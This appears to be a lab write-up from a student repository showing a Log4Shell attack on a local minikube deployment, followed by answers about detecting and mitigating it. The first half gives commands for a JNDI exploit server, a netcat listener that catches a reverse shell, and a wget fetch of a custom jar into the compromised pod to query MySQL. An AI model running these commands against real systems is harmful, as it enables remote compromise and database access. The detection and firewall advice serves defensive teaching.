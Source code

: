 
Once you've done the setup in the readme_original

## how to exploit 
launch this command with the file present in the exploit/ folder
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i host.minikube.internal -p 8080
```

then launch this command 

```
ruby ./script/exploit.rb & nc -lv 3000
```

you should get a shell on the machine

## how to execute mysql command


we need mysql client. but there is no internet on the pod

launch a php server next to the file `mysql_utlis.jar` with the command

```
php -S 0.0.0.0:8000
```

then from the server where you have a reverse shell download the tool I build in java with `wget`
I choosed this way for doing mysql request because the VM doesn't have internet and it's impossible to install some packet or really difficult 
So I built a little java binary that can make mysql request and display it from a tutorial I found on internet because I'm not a java developer at all. That was my first java program.  

```
wget host.minikube.internal:8000/mysql_utils.jar
```

inside the pod you can make query by using the tool this way:

``` 
java -jar mysql_utlis.jar db_name mysql_request 
```

To prove I did some sql request let's do some capture

```
java -jar mysql_utils.jar mysql "show databases;"
```

![screen_capture](images/screen_capture_mysql_request.png)

```
java -jar mysql_utils.jar sys "show columns from user_summary;"
```

![screen_capture](images/screen_capture_mysql01.png)

# Question

## How could we detect this exploit
The answer may vary because of what the server have to do on a regulary basis. But the simpliest solution is probably this: 
The exploit involve that the server, which use the Log4j library vulnerable, make some ldap / rmi / http request. If you log the network somewhere you should be able to see that request from the server. So you could say that every time your server make that kind of request himself to an IP you don't know as an ldap rmi or http server you own. This is the things where you can detect the exploit. you can't really hide or make this exploit works other way. 

An organisation should always log his network and check for scetchy behaviour on it. Snort is a good tool to do this. 
If you know that you own a log4j component vulnerable that you won't fix, you should start to do this.

## How to prevent without fix

To prevent without fix it. You could add a firewall rules or a WAF rules to block ldap request to others servers you don't own. You may also block JNDI request to servers you don't own. To list your own LDAP server which may legitimately receive request from log4shell vulnerable asset should be easy. If it's not, you may need to redisign your network as it's dangerous to run a network like that. You could also remove the access to internet for the vulnerable tool if you don't need it.











